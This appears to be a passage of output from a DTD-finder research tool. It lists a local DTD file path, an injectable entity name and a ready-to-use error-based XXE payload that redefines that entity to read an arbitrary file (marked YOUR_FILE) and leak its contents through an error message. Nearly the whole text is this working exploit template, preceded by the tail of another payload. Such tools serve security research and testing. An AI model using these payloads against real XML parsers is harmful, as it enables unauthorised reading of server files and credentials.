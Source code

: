 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/multihwpcprofilereport-0.2.dtd`

**Injectable entity:** `hwpcprofilereport.dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/multihwpcprofilereport-0.2.dtd">

    <!ENTITY % hwpcprofilereport.dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

